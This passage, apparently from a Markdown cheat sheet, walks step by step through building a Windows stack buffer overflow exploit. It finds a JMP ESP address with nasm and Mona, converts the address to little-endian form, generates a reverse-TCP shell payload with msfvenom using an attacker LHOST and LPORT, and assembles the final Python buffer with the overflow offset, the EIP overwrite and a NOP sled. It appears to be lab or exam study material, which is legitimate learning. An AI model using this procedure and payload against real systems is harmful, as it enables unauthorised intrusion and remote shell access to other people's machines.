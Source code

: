 ```
nasm > jmp esp
00000000  FFE4              jmp esp
```

> Note: Try `call` if `jmp` is not found!

#### Find address

In Unity debugger with Mona find a module without protections. `!mona modules`

Then find the addresses to place in `EIP`. `!mona find -s '\xff\xe4' -m module.dll`

> Note: Mona has some additional, powerful features to find a suitable memory address. You can use for example `!mona jmp -r esp -cpb "BADCHARS"` to find any `JMP ESP` or `CALL ESP`, whilst leaving out addresses with bad characters. Note that Mona  returns addresses for all modules by default, so you still have to look  at the protections.

Addresses in little endian format, so address `0xabcdef10` becomes `\x10\xef\xcd\xab`.

### Generate shellcode

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT EXITFUNC=thread -f py -b '\x00'
```

### Add NOP sled

Just to ensure the payload is referenced correctly.

```python
nopsled = '\x90' * 16
```

### Finalize exploit

At a high level, your buffer becomes something like the following for a simple BoF.

```python
buffer = "A" * 1337 # Identified overflow offset

buffer += "\x10\xef\xcd\xab" # EIP, pointing to your chosen instruction (e.g. JMP ESP)

buffer += "\x90" * 16 # NOP sled

buffer += exploit_code
```

